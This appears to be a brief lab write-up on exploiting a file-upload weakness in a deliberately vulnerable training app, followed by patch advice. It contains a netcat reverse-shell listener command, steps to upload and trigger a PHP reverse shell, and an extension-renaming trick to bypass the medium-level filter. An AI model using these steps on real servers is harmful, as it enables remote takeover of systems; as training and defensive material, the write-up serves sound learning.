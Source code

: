 Security level is currently: low.

php reverse shell code: Downloaded from github

Listing IP: 192.168.170.131 port: 9001

netcat listener command: nc -lvnp 9001

upload the file rev.php and visit the url : http://192.168.170.131/hackable/uploads/rev.php

and you have reverse shell:

![Screenshot 2025-04-25 032053](https://github.com/user-attachments/assets/fc5701af-ac70-40ff-ad23-4eae7ecde73a)


In the the medium section we can do the similar but we have to just edit the rev.php to rev.php.jpej so that it can easily bypass.


Patch:

Check file extension and MIME type.

Rename files before saving.

Store outside web root.

Disable PHP execution in upload directory.
